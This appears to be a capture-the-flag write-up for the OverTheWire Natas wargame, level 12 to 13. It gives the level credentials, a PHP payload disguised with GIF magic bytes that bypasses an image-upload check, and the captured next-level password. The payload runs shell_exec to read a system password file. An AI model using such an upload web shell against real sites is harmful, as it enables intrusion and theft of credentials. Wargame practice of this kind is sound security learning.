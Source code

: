 # Level 12 → Level 13

## Details
Username: `natas13`<br />
Password: `lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9`<br />
URL:      http://natas13.natas.labs.overthewire.org

## Solution
<img src="./0.png"></img>

<img src="./1.png"></img>

<img src="./2.png"></img>

So, we will take magic bytes of an image of some type, for example **gif** with bytes `GIF87a`, and inject it to the beginning of the previous php file.

```php
# get_password.php
GIF87a<?php
echo shell_exec("cat /etc/natas_webpass/natas14");
?>
```

<img src="./3.png"></img>

<img src="./4.png"></img>

<img src="./5.png"></img>



## Password for the next level:
```
GIF87aqPazSJBmrmU7UQJv17MHk1PGC4DxZMEP
```
